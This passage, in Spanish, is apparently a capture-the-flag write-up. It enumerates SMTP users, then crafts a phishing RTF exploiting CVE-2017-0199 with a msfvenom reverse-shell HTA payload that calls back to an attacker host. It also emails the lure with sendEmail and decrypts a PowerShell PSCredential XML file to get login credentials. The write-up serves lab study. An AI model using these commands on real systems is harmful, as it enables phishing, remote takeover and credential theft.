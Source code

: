 Por otro lado, podemos automatizar esto con la herramienta **smtp-user-enum**:
```
# smtp-user-enum -M RCPT -U diccionario_users.txt -t 10.10.10.10
```

Y obtenemos el mismo resultado:
![[Pasted image 20230801023119.png]]

****
#### Crafting a malicious RTF document [PHISHING] CVE-2017-0199  
Con el correo valido, solo nos queda crear un archivo **RTF** que nos permita abusar de este. Hay un [repositorio](https://github.com/bhdresh/CVE-2017-0199) en github que nos puede dar una mano.

Primero vamos a crear un archivo **.hta** malicioso con **msfvenom**:
```
# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.30 LPORT=433 -f hta-psh -o malciious.hta
```

Ahora, con el repositorio en nuestra maquina, haremos lo siguiente:
```
# python2 cve-2017-0199_toolkit.py -M gen -w nudes.rtf -u http://10.10.14.30/malciious.hta -t RTF -x 0 
```

-----------------
#### Sending an email to get command execution [RCE]  
Con todo esto, solo nos queda mandar el correo al individiuo. Lo haremos en este caso con la herramienta **sendEmail**:
```json
# sendEmail -f sexcott@megabank.com -t nico@megabank.com -u "HOLA" -m "ADIOS" -s 10.10.10.10:25 -a nudes.rtf -v
```

`-f`: Indica quien lo envia.
`-t`: Indica a quien sera enviado el correo.
`-u`: Indica el asunto del mensaje.
`-m`: Indica el mensaje del correo. 
`-a`: Indica el archivo a tramitar
`-v`: Modo verbose

En otra terminal, tenemos que estar en escucha para recibir la reverse shell.

------
#### Playing with PSCredential Objects (XML files | PowerShell - Import-CliXml)  
En el directorio en el que nos encontramos, hay un **.xml** el cual contiene credenciales no legibles. Podemos leer este archivo con **Powershell** con el modulo **CliXml**:
```
C:\Users\nico\Desktop>powershell -c "$cred = Import-CliXml -Path cred.xml; $cred.getNetworkCredential() | Format-List *"
```

Con esta credenciales podemos contectanos con **SSH** como **Tom**.
